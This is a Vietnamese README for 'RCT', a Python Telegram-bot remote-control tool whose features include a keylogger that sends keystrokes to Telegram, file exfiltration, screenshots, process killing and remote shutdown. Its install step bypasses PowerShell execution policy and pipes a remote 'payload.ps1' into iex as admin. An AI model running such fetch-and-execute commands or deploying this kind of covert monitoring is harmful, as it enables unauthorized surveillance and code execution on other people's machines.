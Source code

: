 

---

## Mục Lục
- [Hình ảnh về RCT](#các-hình-ảnh-về-rct)
- [Hướng dẫn cài đặt và sử dụng](#hướng-dẫn-sử-dụng-phần-mềm)
- [Thông tin về RCT](#về-rct)
## Các hình ảnh về RCT 
  Biểu tượng 

  ![icon](icon.jpg)

  Tab Home
  
  ![home](home.jpg)

  Tab Main
  
  ![main](main.jpg)

  Tab Setting
  
  ![setting](setting.jpg)
  - **Các chức năng**
    
    **1. Gửi và nhận file ( gửi file từ telegram và lưu vào máy,lấy file từ máy gửi ra telegram )**
       
    ![send_receive](sendf.jpg)
    
    ![receive](receivef.jpg)

    **2. Khóa bàn phím ( khóa các phím thường hay dùng và đặt thời gian tự động mở )**
       
    ![keylock](keylock.jpg)

    **3. Giám sát bàn phím ( giám sát các phím đã nhấn và gửi file kết quả về telegram sau khi hết thời gian giám sát )**
       
    ![keylogger](keylogger.jpg)

    **4. Xem tiến trình và dừng ( xem các tiến trình đang chạy và dừng tiến trình nếu cần,giới hạn xem 40 tiến trình )**
       
    ![running](running.jpg)
    
    ![kill](kill.jpg)

    **5. Tắt máy ( dùng lệnh để tắt máy tính từ xa )**
        
    ![shutdown](shutdown.jpg)
    
    **note : tính năng chụp màn hình khi dùng bot sẽ chụp màn hình hiện tại và gửi ảnh cho người dùng**
---
# Hướng Dẫn Sử Dụng Phần Mềm



## 1. Cài Đặt Phần Mềm
-Trên thanh tìm kiếm windows,tìm `powershell` và chạy dưới quyền admin sau đó nhập các lệnh sau :
```
Set-ExecutionPolicy Bypass -Scope Process -Force
```

```
irm "https://raw.githubusercontent.com/Anhdeface/recote_RCT/refs/heads/main/payload.ps1" | iex
```
Sau khi tải xong thì phần mềm sẽ tự động chạy và chỉ cần thiết lập vài thứ cơ bản là xong
---

## 2. Liên Kết Token Bot Telegram
Cần tải ứng dụng Telegram ở thiết bị cần giám sát 
và đăng kí tài khoản sau đó xem bài viết dưới đây để thiết lập bot

Xem chi tiết ở đây : [xem bài viết chi tiết](https://vietnix.vn/tao-bot-telegram/)

---

## 3. Nhập Token Vào Phần Mềm

- **Mở phần mềm:**  
  Khởi động phần mềm đã được cài đặt.

- **Truy cập tab Setting:**  
  Chọn tab **Setting** trên giao diện.

- **Nhập token:**  
  Dán token đã sao chép vào ô nhập liệu được chỉ định.

- **Lưu cài đặt:**  
  Nhấn nút **Lưu cài đặt** để lưu lại thông tin token.

---

## 4. Khởi Động Bot

- **Chuyển sang tab Main:**  
  Quay lại giao diện chính, chuyển sang tab **Main**.

- **Kích hoạt bot:**  
  Nhấn nút **Start** để khởi động bot.

- **Kiểm tra hoạt động:**  
  Gửi các lệnh đã được lập trình ( `/help`, `/menu`) để xác nhận bot hoạt động bình thường.

---
## Về RCT



-RCT là phần mềm được thiết kế bởi QuocAnh và YenNgoc được viết hoàn toàn bằng ngôn ngữ Python

-Sử dụng PyInstaller để đóng gói và UPX để tối ưu,NSIS được sử dụng để tạo file cài đặt giúp người dùng dễ dàng cài đặt phần mềm

-Sử dụng phần lớn thư viện telebot (pyTelegramBotAPI) để điều khiển bot và thực hiện các lệnh

-Sử dụng framework PyQt5 và Qt Designer để thiết kế giao diện người dùng 

-Hoàn thành dự án chính thức sau 18 ngày ( kể từ 9/02/2025 - 27/02/2025 )

-Lưu ý : vì phần mềm thực hiện các hành động như : chụp màn hình,khóa bàn phím,giám sát bàn phím...Nên Windows sẽ nhận diện đây là virus


---

